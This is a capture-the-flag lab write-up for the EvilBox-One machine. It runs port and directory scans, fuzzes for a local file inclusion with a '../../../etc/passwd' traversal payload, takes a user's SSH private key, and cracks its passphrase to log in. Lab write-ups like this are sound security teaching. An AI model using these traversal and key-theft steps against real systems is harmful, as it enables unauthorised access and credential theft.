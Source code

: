 ```yaml
---
title: "EvilBox-One Walkthrough"
date: 2023-9-19 
img_path: ../../assets/image
image: banner.png
categories: [Proving grounds, Easy,Privesc,Linux Kernel]
tags: [ctf, nmap, base64, enumeration, gobuster, exploitDB, ssh, ubuntu, red teaming]     # TAG names should always be lowercase
---
```


> Welcome back to another writeup of the Proving Grounds Play lab machines and CTF challenge. Today, I am going to present EvilBox-One Walkthrough.**[EvilBox-One](https://portal.offsec.com/labs/play)**  is a Linux Machine from Offsec Proving Grounds rated as Easy.. We shall start with `nmap` scan to see the open ports on the machine. We will later  use `gobuster` for directory brute force and later we shall login with `SSH`  which will give us the initial access to the system. Finally we shall do privilege escalation by exploiting incorrect permissions in `/etc/passswd`file to get root privileges.
{: .prompt-tip }

`Ready, set, boot and root!` 

## Scanning and Enumeration

I started with enumerating the host by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.  We have used -sC for default 
scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:


```shell
                                                                                                                                                                                            
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ nmap -sC -sV -oA initial  192.168.201.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 11:25 EAT
Nmap scan report for 192.168.201.212
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds

```
                                                           
  We see `ssh` port 22 open and `http` port 80 open which is running an Apache 2.4.38 web server.   

    Looking at port 80 on the web browser, we see a default Apache2 debian page. 
  ![image](../../assets/image/posts/evilbox1/ev1.png)

  Looking at the robots.txt, I found a message saying . "Hello H4x0r" which might be a potential username.
    ![image](../../assets/image/posts/evilbox1/ev2.png)


  Since `http` port 80 is open, we need to do some directory bruteforcing and look at what directories are accessible. We're going to use `gobuster` which is a Directory/File, DNS and VHost busting tool written in Go. This took a little bit to run, but it did find something interesting. It found a file/folder called /secret.

  ```shell                                
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]
/secret               (Status: 200) [Size: 4]
Progress: 32804 / 882244 (3.72%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32814 / 882244 (3.72%)
===============================================================
Finished
===============================================================
  ```
 However that was nothing more than a blank page. So, I further bruteforced to find other paths inside of it.
 ![image](../../assets/image/posts/evilbox1/ev3.png)

Gobuster really took some time but i finally found a file called /secret/evil.php. 
```shell
                                                                                                                                                                                              
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
Progress: 53868 / 882244 (6.11%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 53878 / 882244 (6.11%)
===============================================================
Finished
===============================================================
                                                                   
```
However, I had no idea what to do with this file, since it really displayed nothing, but an empty page when accessed.
![image](../../assets/image/posts/evilbox1/ev4.png)
The script is empty and since I have nowhere to go from there, I fuzzed the GET parameter on it.

```shell                                                                                                                                     
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ ffuf -c -r -u http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd  -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 3522ms]
    * FUZZ: command

:: Progress: [4715/4715] :: Job [1/1] :: 196 req/sec :: Duration: [0:00:59] :: Errors: 0 ::


```
Up to now, we found that `command` allows the inclusion of local files of the target.
![image](../../assets/image/posts/evilbox1/ev5.png)

We have to search sensitive files that would give me access to the machine. Since I have a user, I tried checking files from its home directory. Luckily, I found a public key in the /home/mowree/.ssh/authorized_keys file. Then, I checked if I can access the private key and I could.

![image](../../assets/image/posts/evilbox1/ev7.png)
Ok great, so, I am going to copy this and save it as id_rsa on my local machine and I am going to use the famous ssh2john to extract the hash and see if I can crack it.
The private key is encrypted by a passphrase. Now, We have to crack the passphrase. So, I copied the content to a file “id_rsa” on my local machine,
 ![image](../../assets/image/posts/evilbox1/ev8.png)

After coping the id_rsa to my machine i changed its permissions

![image](../../assets/image/posts/evilbox1/ev6.png)

We have to crack the hash of the passphrase. Therefore, we need a tool called ssh2john to generate the hash.
![image](../../assets/image/posts/evilbox1/ev9.png)


Now that I had the hash, I used John the Ripper to crack the hash, that gave us the passphrase to decrypt the id_rsa file.
![image](../../assets/image/posts/evilbox1/ev10.png)





## Initial Access
After successfully cracking the passphrase. Now, we can easily log in.
 ![image](../../assets/image/posts/evilbox1/ev11.png)

We have managed to get the user flag now we need to find a way to  escalate our privileges to root.
 ![image](../../assets/image/posts/evilbox1/ev12.png)


